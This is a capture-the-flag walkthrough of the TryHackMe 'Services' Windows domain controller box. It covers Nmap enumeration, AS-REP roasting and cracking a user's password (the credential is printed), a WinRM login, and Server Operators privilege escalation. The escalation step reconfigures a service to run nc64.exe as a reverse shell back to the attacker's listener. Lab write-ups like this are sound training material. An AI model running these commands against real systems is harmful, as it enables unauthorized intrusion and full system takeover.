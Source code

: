 # THM - Services

#### Ip: 10.10.181.162
#### Name: Services
#### Rating: Intermediate

------------------------------------------------

![thm_services_pic.png](../assets/services_assets/thm_services_pic.png)


#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Services]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.181.162       
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-12-18 10:44 CST
Warning: 10.10.181.162 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.181.162
Host is up (0.13s latency).
Not shown: 65405 closed tcp ports (reset), 101 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Above Services
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-18 16:45:20Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: services.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: services.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: SERVICES
|   NetBIOS_Domain_Name: SERVICES
|   NetBIOS_Computer_Name: WIN-SERVICES
|   DNS_Domain_Name: services.local
|   DNS_Computer_Name: WIN-SERVICES.services.local
|   Product_Version: 10.0.17763
|_  System_Time: 2024-12-18T16:46:18+00:00
|_ssl-date: 2024-12-18T16:46:27+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WIN-SERVICES.services.local
| Not valid before: 2024-12-17T16:41:15
|_Not valid after:  2025-06-18T16:41:15
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49706/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: WIN-SERVICES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-12-18T16:46:18
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.11 seconds
```

Lets update our `/etc/hosts` file:
```
10.10.181.162   services.local WIN-SERVICES.services.local
```

Looks like we've got a Domain Controller here.

Looking at the website on port 80 we find an `/about.html` which lists a few employees, and luckily for us also gives us the username naming convention.

thm_services_about.png

Lets use this to create a usernames list:

```
┌──(ryan㉿kali)-[~/THM/Services]
└─$ cat users.txt   
j.doe
j.rock
w.masters
j.larusso
administrator
```

(always a good idea to just tack on administrator as well to lists like these for Windows targets)

### Exploitation

Using this list we find we can as-rep roast the j.rock user:

thm_services_asrep.png

Lets add this to a file called j.rock_hash and try cracking it with John.

Nice, that worked:

thm_services_john.png

`j.rock:Serviceworks1`

We can use evil-winrm to login:

```
┌──(ryan㉿kali)-[~/THM/Services]
└─$ evil-winrm -i 10.10.181.162 -u j.rock -p 'Serviceworks1'
```

And grab the user.txt flag:

thm_services_user.png

### Privilege Escalation

Running `whoami /all` we see our user is in the Server Operators group:

thm_services_group.png

We should be able to abuse this for root access.

First let's see what services are running:

```
*Evil-WinRM* PS C:\temp> services

Path                                                                           Privileges Service          
----                                                                           ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                            True ADWS             
"C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"                                   True AmazonSSMAgent   
"C:\Program Files\Amazon\XenTools\LiteAgent.exe"                                     True AWSLiteAgent     
"C:\Program Files\Amazon\cfn-bootstrap\winhup.exe"                                   True cfn-hup          
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                        True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                     True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"          False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                           False TrustedInstaller 
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2302.7-0\NisSrv.exe"        True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2302.7-0\MsMpEng.exe"       True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                False WMPNetworkSvc 
```

We can then upload a copy of nc64.exe:

```
*Evil-WinRM* PS C:\temp> upload ~/Tools/AD/nc64.exe
Info: Uploading ~/Tools/AD/nc64.exe to C:\temp\nc64.exe

                                                             
Data: 60360 bytes of 60360 bytes copied

Info: Upload successful!
```

Let's then update the service path, stop it, and then start it again:

```
*Evil-WinRM* PS C:\temp> sc.exe config cfn-hup binPath="C:\temp\nc64.exe -e cmd.exe 10.6.72.91 445"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\temp> sc.exe stop cfn-hup
[SC] ControlService FAILED 1062:

The service has not been started.

*Evil-WinRM* PS C:\temp> sc.exe start cfn-hup
```

This catches us a shell back as system in our listener:

```
┌──(ryan㉿kali)-[~/THM/Services]
└─$ nc -lnvp 445                                        
listening on [any] 445 ...
connect to [10.6.72.91] from (UNKNOWN) [10.10.181.162] 59624
Microsoft Windows [Version 10.0.17763.4010]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami 
whoami
nt authority\system

C:\Windows\system32>hostname
hostname
WIN-SERVICES
```

We can now grab the root.txt flag:

thm_services_root.png

Thanks for following along!

-Ryan

---------------------------------------
